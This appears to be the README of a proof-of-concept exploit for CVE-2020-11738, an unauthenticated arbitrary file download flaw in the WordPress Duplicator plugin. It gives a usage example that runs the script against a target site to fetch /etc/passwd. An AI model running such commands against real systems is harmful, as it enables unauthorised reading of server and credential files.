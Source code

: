 # Description
**CVE-2020-11738**

Duplicator 1.3.24 & 1.3.26 - Unauthenticated Arbitrary File Download. According to the vendor, the vulnerability was only in two versions v1.3.24 and v1.3.26, the vulnerability wasn't present in versions 1.3.22 and before.

# Usage:
```bash
Usage:
    python3 CVE-2020-11738.py <domain> <file>

Example:
    python3 CVE-2020-11738.py http:/pwnme.me/wordpress /etc/passwd
```
# POC
![](./CVE-2020-11738.gif)